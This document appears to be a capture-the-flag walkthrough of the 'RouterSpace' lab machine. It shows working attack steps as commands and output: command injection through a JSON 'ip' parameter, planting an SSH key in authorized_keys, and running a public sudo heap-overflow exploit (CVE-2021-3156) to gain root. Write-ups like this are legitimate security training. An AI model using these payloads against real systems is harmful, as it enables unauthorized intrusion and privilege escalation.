









# Routerspace


IP: 10.10.11.148

## Enumeration
### Nmap
We start running nmap in all ports:
```bash
> sudo nmap -p- --min-rate=1000 -T4 10.10.11.148

Nmap scan report for routerspace.htb (10.10.11.148)
Host is up (0.27s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Then we run nmap with safe scripts on open ports:
```bash
> sudo nmap -sC -sV -p 22,80 10.10.11.148

Nmap scan report for 10.10.11.148                                                                                                                                                                                  
Host is up (0.27s latency).

PORT   STATE SERVICE VERSION                                                                                                                                                                                       
22/tcp open  ssh     (protocol 2.0)                                                                                                                                                                                
| fingerprint-strings:                                                                                                                                                                                             
|   NULL:                                                                                                                                                                                                          
|_    SSH-2.0-RouterSpace Packet Filtering V1                                                                                                                                                                      
| ssh-hostkey:                                                                                                                                                                                                     
|   3072 f4:e4:c8:0a:a6:af:66:93:af:69:5a:a9:bc:75:f9:0c (RSA)                                                                                                                                                     
|   256 7f:05:cd:8c:42:7b:a9:4a:b2:e6:35:2c:c4:59:78:02 (ECDSA)                                                                                                                                                    
|_  256 2f:d7:a8:8b:be:2d:10:b0:c9:b4:29:52:a8:94:24:78 (ED25519)                                                                                                                                                  
80/tcp open  http                                                                                                                                                                                                  
| fingerprint-strings:                                                                                                                                                                                             
|   FourOhFourRequest:                                                                                                                                                                                             
|     HTTP/1.1 200 OK                                                                                                                                                                                              
|     X-Powered-By: RouterSpace                                                                                                                                                                                    
|     X-Cdn: RouterSpace-53401                                                                                                                                                                                     
|     Content-Type: text/html; charset=utf-8                                                                                                                                                                       
|     Content-Length: 71                                                                                                                                                                                           
|     ETag: W/"47-FipWg5hWDC81Z6WXln1z0qjL1iw"                                                                                                                                                                     
|     Date: Thu, 07 Jul 2022 06:56:05 GMT                                                                                                                                                                          
|     Connection: close                                                                                                                                                                                            
|     Suspicious activity detected !!! {RequestID: f n kfvL Mmj24O }                                                                                                                                               
|   GetRequest:                                                                                                                                                                                                    
|     HTTP/1.1 200 OK                                                                                                                                                                                              
|     X-Powered-By: RouterSpace                                                                                                                                                                                    
|     X-Cdn: RouterSpace-67423                                                                                                                                                                                     
|     Accept-Ranges: bytes                                                                                                                                                                                         
|     Cache-Control: public, max-age=0                                                                                                                                                                             
|     Last-Modified: Mon, 22 Nov 2021 11:33:57 GMT                                                                                                                                                                 
|     ETag: W/"652c-17d476c9285"                                                                                                                                                                                   
|     Content-Type: text/html; charset=UTF-8                                                                                                                                                                       
|     Content-Length: 25900                                                                                                                                                                                        
|     Date: Thu, 07 Jul 2022 06:55:57 GMT                                                                                                                                                                          
|     Connection: close                                                                                                                                                                                            
|     <!doctype html>
...<snip>...
```

### Port 80 - HTTP
Accessing http://10.10.11.148/ we land on what it looks like an Android application website with the title "RouterSpace":

We can download the Android app from the "Download Now" button.

### Install Anbox
Next we will install Anbox using snap so we can have a look at the requests while we play with the app:
```bash
sudo apt install snapd
systemctl enable --now snapd
service snapd.apparmor start 
snap install --devmode --beta anbox
sudo snap set anbox software-rendering.enable=true
sudo snap restart anbox.container-manager
```

Start Anbox:
```bash
/snap/bin/anbox.appmgr
```

As the Anbox emulator starts we can look at the IP address assigned to it, we will need it later to configure Burp. We can go to Settings -> About emulated device -> Status:


Check if we can connect to the emulator via ADB:
```bash
> adb devices
List of devices attached
emulator-5558   device

> adb shell

x86_64:/ $ su root
x86_64:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc)
```

### Install RouterSpace application
Lets install the RouterSpace application in the emulator:
```bash
> adb install RouterSpace.apk        
Performing Streamed Install
Success
```

Good! The application is now installed:


### Setup Burp to capture Anbox traffic
Now we just need to setup Anbox to send its traffic through Burp.
Anbox created a new interface in the `192.168.250.1/24` which is where the application will comunicate:
```bash
> ifconfig anbox0
anbox0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.250.1  netmask 255.255.255.0  broadcast 0.0.0.0
        inet6 fe80::c0ee:b3ff:fe2a:58e7  prefixlen 64  scopeid 0x20<link>
        ether fe:75:d4:c6:20:0b  txqueuelen 1000  (Ethernet)
        RX packets 281  bytes 16440 (16.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 92  bytes 5564 (5.4 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

We can setup Burp proxy as follows:


And then we configure the emulator to send the traffic through that address:
```bash
> adb shell settings put global http_proxy 192.168.250.1:8080
```

### Intercepting request in Burp
Now we can start the RouterSpace app in the emulator.

There is only one button "Check Status". When we press that button we can see in Burp that it sends a POST request to http://routerspace.htb/:


We add this entry to our `/etc/hosts` file so the request can find the IP:
```bash
10.10.11.148    routerspace.htb
```

We can now use the repeater tab in Burp to resend the same request:

The server response the same value sent in the `ip`  parameter and with an `\n` indicates that it could be vulnerable to command injection.

We confirm the injection appending commands to the `ip` parameter:
```json
{"ip":"0.0.0.0;id"}
```



## Exploitation
We can send commands as the user `paul`, maybe we can create an SSH key and save to his `authorized_keys` file.
Create a new SSH key:
```bash
> ssh-keygen -f paul.key
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in paul.key
Your public key has been saved in paul.key.pub
```

Using the RCE vulnerability, upload the generated `paul.key.pub` key into `paul/.ssh/authorized_keys`:
```json
{"ip":"0.0.0.0;echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCjXkf+E3MK6omlhquDZ4gJbwfYYg0GYc2t5wxK1B2MUwT9CFU27oN8XNhpN5lAxqkLN2rmPP7A6Lrl6cauFv1LIVLd9Ksjvh6V0R/2xz8LGTh+hKPn3Np+9CaLvT4UjQmziHItzU7aeY+F2NAyPT0KMDEhTdFqrYgnSQ6IF9hXPXpgWvtIyOW9YoxyJpRlZNEjaAD7XE322YbQZg9cB59tLNoPdUooBeZVtYHaJ8bUUJwrlC3DyKpVaw4pXmJ2azGX2qpBQnY3riVtRUHoqTJvoPyIBNTSfbtbWhItooRTFKQYgOmS8lOLAnkZ3bM24L489AHXinv3O2M+ba//tspzZVp2sBEZF4FsJVaWdS3EqLkMscG8XGmgrZK5WWydIWBQY5zgukNmk8W2NtexpKAKO/QPlL79P76sMTDfBB8bk97uJ4pLnYDPQ5c1wtAcHr+W0eBgjnS9KeJYSBRxhhmEReJfGGXE/y7i8j8MY0eQVPVpIgTyoBCNYwXyZmwOo0k= caue@kali' > /home/paul/.ssh/authorized_keys"}
```

Now simply SSH in using the private key:
```bash
> chmod 400 paul.key
> ssh -i paul.key paul@routerspace.htb
...<snip>...
paul@routerspace:~$
```

## Privilege Escalation
Enumerating the files in the system we find the source code of the web application, including a potential credentials for `paul`:
```bash
paul@routerspace:~$ cat /opt/www/public/routerspace/index.js

var express = require("express");
const path = require("path");
const app = express();
const { check, oneOf, validationResult } = require("express-validator");
const promisify = require('util').promisify;

const port = 80;
const tokenSecret = "v%XsfkyZ#2SsfY9F--ippsec.rocks--x0o^VvYSRCw$5#MKi5";
const userAgent = "RouterSpaceAgent";
const payload = [
  "paul@routerspace.htb",
  "*******************",
  "Hyakutake-0x1",
];
```
However running `sudo -l` to check the user privileges and trying this password did not work!

### Sudo - vulnerable
We can verify the `sudo` version:
```bash
paul@routerspace:~$ sudo -V
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
```

This version of `sudo` is vulnerable to the classic CVE-2021-3156: Heap-Based Buffer Overflow in Sudo (Baron Samedit).
There is a [POC here](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit) and we can check if it is vulnerable running `sudoedit -s Y`, if it asks for a password then it is likely to be vulnerable:
```bash
paul@routerspace:~$ sudoedit -s Y
[sudo] password for paul:
```

Looks like it is! Lets clone the repo and upload the exploit:
```bash
> git clone https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit
> cd Sudo-1.8.31-Root-Exploit
> scp -i paul.key  Sudo-1.8.31-Root-Exploit/exploit.c paul@routerspace.htb:/tmp
> scp -i paul.key  Sudo-1.8.31-Root-Exploit/Makefile paul@routerspace.htb:/tmp
> scp -i paul.key  Sudo-1.8.31-Root-Exploit/shellcode.c paul@routerspace.htb:/tmp
```

*We have to use SCP to upload the files as it seems that there is some IPTABLES rules preventing us from accessing other ports.*

Now we compile the exploit and execute:
```bash
paul@routerspace:/tmp$ make
mkdir libnss_x
cc -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
cc -O3 -o exploit exploit.c

paul@routerspace:/tmp$ ls
exploit    shellcode.c    exploit.c    libnss_x    Makefile 

paul@routerspace:/tmp$ ./exploit
```

And we are root!
```
# id
uid=0(root) gid=0(root) groups=0(root),1001(paul)
# cd /root
# ls -la
total 44
drwx------  7 root root 4096 Feb 17 17:16 .
drwxr-xr-x 19 root root 4096 Feb 17 18:30 ..
lrwxrwxrwx  1 root root    9 Nov 20  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Nov 25  2021 .cache
drwx------  3 root root 4096 Nov 20  2021 .config
drwxr-xr-x  3 root root 4096 Nov 20  2021 .local
drwxr-xr-x  4 root root 4096 Nov 20  2021 .npm
-rw-r--r--  1 root root  175 Nov 20  2021 .profile
-rw-r--r--  1 root root   66 Feb  7 14:33 .selected_editor
drwx------  2 root root 4096 Nov 20  2021 .ssh
-r--------  1 root root   33 Jul  7 05:54 root.txt
```